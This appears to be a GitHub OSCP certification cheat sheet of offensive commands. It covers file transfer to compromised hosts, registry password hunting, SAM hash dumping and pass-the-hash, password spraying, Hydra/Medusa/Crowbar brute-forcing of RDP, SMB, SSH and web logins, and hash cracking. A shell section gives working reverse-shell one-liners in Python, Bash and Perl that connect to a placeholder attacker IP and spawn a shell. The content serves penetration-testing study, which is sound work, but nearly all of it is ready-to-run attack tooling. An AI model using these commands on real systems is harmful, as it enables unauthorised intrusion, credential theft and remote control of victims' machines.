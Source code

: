 ∂# OSCP-handytools
- https://github.com/seal9055/oscp-notes/blob/main/README.md
- https://github.com/rodolfomarianocy/OSCP-Tricks-2023/tree/main
- https://github.com/Ak500k/oscp-notes?tab=readme-ov-file
- https://zweilosec.github.io/posts/upgrade-linux-shell/
  
# Wordlists
```
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/usr/share/seclists/Discovery/Web-Content/common.txt
/usr/share/seclists/Discovery/Web-Content/big.txt
/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
/usr/share/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
/usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt
```

# Post Exploitation Linux
## File upload
- Starting Web Server
`python3 -m http.server 80`

- Filetransfer
```
wget <LHOST>/<file>
curl http://<LHOST>/<file> -o <output-file>
echo "GET /<file> HTTP/1.0" | nc -n <LHOST> 80 > <out-file> && sed -i '1,7d' <out-file>
```

- Secure Filetransfers
```
on target:  ncat -nvlp <port> --ssl > <out-file>
on kali:  ncat -nv <RHOST> <RPORT> --ssl < <file-to-send>
```

# Passwords
- Use chisel to remotely forward port 445, and use winexe to log in
`winexe -U <user>%<password> //<RHOST> cmd.exe`

- Check for passwords
`reg query HKLM /f password /t REG_SZ /s`
`reg query HKCU /f password /t REG_SZ /s`

- Weak Permissions on Sam Files
`python2 pwdump.py <SYSTEMFILE> <SAMFILE>`

- Cracking the password
`hashcat -m 1000 --force <hash> <wordlist>`

- PTH
`pth-winexe -U '<entire-hash>' //<RHOST> cmd.exe`


# Password Spraying
- Create Password List
`crunchy <length> <length> -t <pw-core>%%%% `

- Spray
`rowbar -b rdp -s <ip>\32 -U users.txt -C pw.txt -n 1`

# Hashcracking
- John
`john --format=<fomrat> --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

- Hashcat
```
hashcat -m <hashid> -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt -O  
hashcat -m <hashid> -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt -O -r /usr/share/hashcat/rules/best64.rule  
cat pw | hashcat -r/usr/share/hashcat/rules/best64.rule --stdout > wordlist.txt
```

# Bruteforcing
RDP Brute Force - Hydra
`hydra -L /usr/share/wordlists/rockyou.txt t -p "<password" rdp://<IP>`

RDP Brute Force -  Crowbar
`crowbar -b rdp -s XX.XX.XX.XX/32 -u admin -C ~/password-file.txt -n 1`

SMB Brute Force - Hydra
`hydra -L /root/Desktop/user.txt -P /usr/share/wordlists/rockyou.txt <IP> smb`

SSH Brute Force - Hydra
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt ssh://<IP>`

HTTP htaccess Attack with Medusa
`medusa -h XX.XX.XX.XX -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin`

HTTP POST Login Form (login forms) Brute Force - Hydra, brute force username and password
`hydra -l <user> -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:usernamefieldname=^USER^&passwordfieldname=^PASS^:Login failed text" -vV -f`

HTTP POST Login Form (login forms) Brute Force - Hydra, bruteforce password only
`hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -1 admin -P /usr/share/wordlists/rockyou. txt -vV -f`
![image](https://github.com/redcountryroad/OSCP-shortsheet/assets/166571565/a78ffd2d-a33b-4f53-8574-9b6a4a7f4c40)

HTTP GET Login Form Brute Force - Hydra
`hydra -l <username> -P /usr/share/wordlists/rockyou.txt -f <IP> http-get /login`

# MISC
SSH Encrypted
`/usr/share/john/ssh2john`

Crack Zip Pw
`fcrackzip -uvDp /usr/share/wordlists/rockyou.txt file.zip`

Tcp Dump
`sudo tcpdump -i tun0 icmp`

Images
- `binwalk <image>`
- `binwalk -Me <image>`

# Upgrade Linux Shell
check python version used in box
`which python python2 python3`

Method 1: using Python (one liner)
- `python -c 'import pty;pty.spawn("/bin/bash")'`
- `python3- c 'import pty;pty.spawn("/bin/sh")'`
- `stty raw -echo`

Method 2: using Python (multi liner)
```bash
python -c 'import pty;pty.spawn("/bin/bash")' 
cltr-z
stty raw -echo;fg  fg
export TERM=xterm
stty -a ; stty rows columns 136 rows 32
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Method 3: Using Script
- `script -qc /bin/bash /dev/nullscript -qc /bin/bash /dev/null`

## references
## upgrade shell
- https://fareedfauzi.gitbook.io/oscp-playbook/reverse-shell/interactive-ttys-shell
- https://github.com/pythonmaster41/Go-For-OSCP
- https://www.schtech.co.uk/linux-reverse-shell-without-python/
- https://github.com/RoqueNight/Reverse-Shell-TTY-Cheat-Sheet

```bash
#Python
python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<[IP]>",<[PORT]>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

#non python shell (not 100%)
#This will break you out of the pseudo terminal and into a tty shell, you can then su and carry out all other terminal based commands
/usr/bin/script -qc /bin/bash /dev/null
stty raw -echo; fg; reset

#Bash
echo os.system('/bin/bash')
/bin/sh -i
exec 5<>/dev/tcp/<[IP]>/<[PORT]> cat <&5 | while read line; do $line 2>&5 >&5; done

#Perl
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'use Socket;$i="<[IP]>";$p=<[PORT]>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#Ruby:
ruby: exec "/bin/sh"

#Lua
lua: os.execute('/bin/sh')

#From within IRB
exec "/bin/sh"

#From within vi
:!bash

#From within vi
:set shell=/bin/bash:shell

#From within nmap
!sh
```

# Upgrade Windows Shell
`rlwrap nc -lvnp $port`

# improve presentation of shell i.e. browse command history
`rlwrap nc -lvnp $port`

# Tools to make life easier
-> revshell generator
https://www.revshells.com/ 

-> CyberChef
https://gchq.github.io/CyberChef/

-> urlencoder
https://www.urlencoder.org/

-> octal
http://www.unit-conversion.info/texttools/octal/

-> hex
http://www.unit-conversion.info/texttools/octal/

-> IP converter
https://www.silisoftware.com/tools/ipconverter.php

-> How to Zip and Unzip Files Using PowerShell
https://zweilosec.github.io/posts/zip-unzip-files-powershell/ 
